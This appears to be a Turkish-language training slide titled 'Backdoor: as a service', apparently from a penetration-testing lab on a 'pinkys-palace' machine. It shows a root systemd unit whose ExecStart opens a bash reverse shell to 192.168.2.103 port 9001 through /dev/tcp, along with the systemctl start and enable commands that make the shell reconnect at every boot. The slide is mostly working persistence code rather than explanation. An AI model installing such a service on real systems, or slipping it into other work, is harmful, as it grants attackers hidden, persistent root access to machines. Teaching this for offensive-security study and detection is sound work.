

# Backdoor: as a service
Servis dosyası:
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.2.103/9001 0>&1"
[Install]
WantedBy=multi-user.target
Servis başlatma komutu
root@pinkys-palace:/etc/systemd/system# systemctl start backdoor.service
Servis başlatma durumunda etkinleştirme. İşletim sistemi her başlatıldığında servis otomatik olarak çalışacak.
root@pinkys-palace:/etc/systemd/system# systemctl enable backdoor.service
Kaynak: Fahmi FJ where Linux Backdoors and Where to Find Them  on github